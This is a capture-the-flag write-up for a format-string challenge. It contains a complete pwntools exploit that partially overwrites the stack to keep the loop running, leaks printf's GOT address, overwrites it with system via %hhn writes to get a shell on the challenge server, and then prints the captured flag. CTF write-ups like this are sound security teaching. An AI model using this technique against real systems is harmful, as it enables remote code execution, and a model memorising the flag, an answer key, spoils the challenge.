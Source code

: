 # Yet another format string bug

## Solution

Make use of partial overwrite to the stack (at `%7$n`). There is originally address of some element on the stack, so partially overwriting one byte may or may not lead to the corruption of loop condition variable. If lucky enough, the variable is changed and we can use more than one format string attack.

The following exploit gambles for loop condition overwrite, and overwrite address of `printf` to `system`, making the program execute shell script from standard input.

```python
import pwn
pwn.context.log_level = 'debug'

# libc = pwn.ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
libc = pwn.ELF('./libc.so.6')
printf_addr = libc.symbols['printf']
system_addr = libc.symbols['system']

print(hex(printf_addr))
print(hex(system_addr))

while True:
    # p = pwn.process('./yet_another_fsb')
    HOST='0025a2a25ef52497109f8b5c0b8a5c86.chal.ctf.ae'
    p = pwn.remote(HOST,443, ssl=True, sni=HOST)
    try:
        # Gamble to trigger loop
        p.send(b'abcd%7$n' + b'\xee')
        k = p.recv(12)

        
        v5_addr = pwn.u64(k[4:].ljust(8, b'\0'))
        # print(hex(v5_addr))
        
        # leak printf addr

        payload = b''
        payload += b'%7$sASDF'
        payload += pwn.p64(0x404000)
        p.send(payload)
        real_printf_addr = pwn.u64(p.recvuntil(b'ASDF')[:-4].ljust(8,b'\0'))
        print(hex(real_printf_addr))

        real_system_addr = real_printf_addr - printf_addr + system_addr
        print(hex(real_system_addr))
        


        # overwrite printf addr to system addr
        payload = b''
        curr=0
        for i,x in enumerate(list(pwn.p64(real_system_addr))):
            cnt=(x-curr -1)%256 +1
            print(x)
            curr_payload = (b'%' + str(cnt).encode() + b'c%' + str(22+i).encode() + b'$hhn')

            # align 16 bytes
            A_cnt = 16-len(curr_payload)
            assert len(curr_payload) + A_cnt == 16
            payload += curr_payload + b'A'*A_cnt
            curr += cnt + A_cnt
        assert len(payload) == 16*8
        for i in range(8):
            payload += pwn.p64(0x404000+i)
        # overwrite printf got
        p.send(payload)
        p.recv()
        p.interactive()
        exit()
    except EOFError:
        p.close()
        
```

flag is: **flag{e3ushwhAnyCPxhiBSRxOY72OgfxGdRjy}**